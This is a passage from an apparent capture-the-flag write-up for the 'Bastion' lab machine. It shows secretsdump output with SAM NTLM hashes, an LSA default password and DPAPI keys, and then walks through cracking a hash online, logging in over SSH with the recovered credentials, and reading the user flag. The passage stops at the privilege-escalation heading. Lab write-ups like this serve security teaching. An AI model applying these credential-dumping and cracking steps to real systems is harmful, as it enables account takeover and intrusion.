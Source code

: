     [*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:e4487d0421e6611a364a5028467e053c:::
    L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
    [*] Dumping cached domain logon information (domain/username:hash)
    [*] Dumping LSA Secrets
    [*] DefaultPassword 
    (Unknown User):bureaulampje
    [*] DPAPI_SYSTEM 
    dpapi_machinekey:0x32764bdcb45f472159af59f1dc287fd1920016a6
    dpapi_userkey:0xd2e02883757da99914e3138496705b223e9d03dd
    [*] Cleaning up... 



I'll also notice that `secretsdump.py` identified a default password (or
autolongon password) of "bureaulampje" for an unknown user.

### Crack Hash

Submitting the NTLM hashes to [crackstation](https://crackstation.net/)
returns the same password for the l4mpje account:

![](/img/1557434097548.png)

### SSH

Seeing ssh on a Windows box is a bit unusual, but this seems like a good
chance to use it. I can ssh in as l4mpje:



    root@kali# ssh L4mpje@10.10.10.134
    L4mpje@10.10.10.134's password:
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    l4mpje@BASTION C:\Users\L4mpje>



And now I can grab `user.txt`:



    l4mpje@BASTION C:\Users\L4mpje\Desktop>type user.txt
    9bfe57d5...



## Privesc to administrator
